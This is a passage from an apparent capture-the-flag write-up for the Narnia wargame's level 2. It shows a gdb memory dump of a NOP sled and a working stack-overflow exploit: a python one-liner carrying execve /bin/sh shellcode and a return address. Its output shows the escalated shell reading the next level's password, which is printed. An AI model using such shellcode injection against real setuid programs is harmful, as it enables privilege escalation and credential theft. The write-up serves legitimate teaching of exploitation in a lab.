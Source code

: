 ```nasm
0xffffd824:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd834:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd844:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd854:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd864:	0x50c03190	0x732f2f68	0x622f6868	0xe3896e69
0xffffd874:	0xc289c189	0x80cd0bb0	0xcd40c031	0x42424280
0xffffd884:	0x434c0042	0x4c4c415f	0x5f6e653d	0x552e5355
0xffffd894:	0x382d4654	0x5f534c00	0x4f4c4f43	0x723d5352
0xffffd8a4:	0x3a303d73	0x303d6964	0x34333b31	0x3d6e6c3a
0xffffd8b4:	0x333b3130	0x686d3a36	0x3a30303d	0x343d6970
0xffffd8c4:	0x33333b30	0x3d6f733a	0x333b3130	0x6f643a35
0xffffd8d4:	0x3b31303d	0x623a3533	0x30343d64	0x3b33333b
0xffffd8e4:	0x633a3130	0x30343d64	0x3b33333b	0x6f3a3130
0xffffd8f4:	0x30343d72	0x3b31333b	0x6d3a3130	0x30303d69
0xffffd904:	0x3d75733a	0x343b3733	0x67733a31	0x3b30333d
```

Here, I choose `0xffffd824` as it is in the middle of the *NOP-sled*. Let's try again with the return address :

```nasm
(gdb) run $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x24\xd8\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia2 $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x24\xd8\xff\xff"')

Breakpoint 1, 0x0804848f in main ()
(gdb) continue
Continuing.
process 21195 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
$
```

We got a shell, but we need to run it outside GDB's context.

```bash
narnia2@narnia:/narnia$ ./narnia2 $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x24\xd8\xff\xff"')
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
vaequeezee
``` 

Yay, we did it !
